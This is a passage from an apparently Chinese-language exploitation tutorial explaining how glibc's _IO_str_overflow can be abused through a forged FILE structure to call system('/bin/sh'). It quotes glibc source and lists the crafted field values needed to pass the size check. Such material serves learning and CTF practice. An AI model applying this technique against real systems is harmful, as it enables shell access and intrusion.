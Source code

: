 struct _IO_streambuf
{
  struct _IO_FILE _f;
  const struct _IO_jump_t *vtable;
};

typedef struct _IO_strfile_
{
  struct _IO_streambuf _sbf;
  struct _IO_str_fields _s;		//虚表
} _IO_strfile;
</pre>
在这个vtable中有两个函数我们可以拿来利用，\_IO_str\_overflow和\_IO\_str\_finish。

#### 3.2.1 \_IO\_str\_overflow利用方法 ####
其中\_IO\_str\_overflow代码如下所示：
<pre class = "prettyprint lang-javascript">
int _IO_str_overflow (_IO_FILE *fp, int c)
{
  int flush_only = c == EOF;
  _IO_size_t pos;
  if (fp->_flags & _IO_NO_WRITES)
      return flush_only ? 0 : EOF;
  if ((fp->_flags & _IO_TIED_PUT_GET) && !(fp->_flags & _IO_CURRENTLY_PUTTING))
  {
      fp->_flags |= _IO_CURRENTLY_PUTTING;
      fp->_IO_write_ptr = fp->_IO_read_ptr;
      fp->_IO_read_ptr = fp->_IO_read_end;
  }
  pos = fp->_IO_write_ptr - fp->_IO_write_base;
  if (pos >= (_IO_size_t) (_IO_blen (fp) + flush_only))  // 条件 #define _IO_blen(fp) ((fp)->_IO_buf_end - (fp)->_IO_buf_base)
  {
	if (fp->_flags & _IO_USER_BUF) /* not allowed to enlarge */
		return EOF;
	else
	{
		char *new_buf;
		char *old_buf = fp->_IO_buf_base;
		size_t old_blen = _IO_blen (fp);
		_IO_size_t new_size = 2 * old_blen + 100;      // 通过计算 new_size 为 "/bin/sh\x00" 的地址
		if (new_size < old_blen)
			return EOF;
		new_buf = (char *) (*((_IO_strfile *) fp)->_s._allocate_buffer) (new_size);     
		// 在这个相对地址放上 system 的地址，即 system("/bin/sh")
    [...]
</pre>
因此我们可以下面的方式对fp指针进行构造：
所以可以像下面这样构造：

    fp->_flags = 0
    fp->_IO_buf_base = 0
    fp->_IO_buf_end = (bin_sh_addr - 100) / 2		//如果之后替换的时one_gadget而不是system，则不用这一步
    fp->_IO_write_ptr = 0xffffffffff	//这里需要注意，该值不能过小
    fp->_IO_write_base = 0			//实际就是_IO_write_ptr >_IO_write_base
    fp->_mode = 0
其中fp->\_IO\_write\_ptr的值我们之所以要设置为一个比较大的数是为了绕过`pos >= (_IO_size_t) (_IO_blen (fp) + flush_only)`检查。
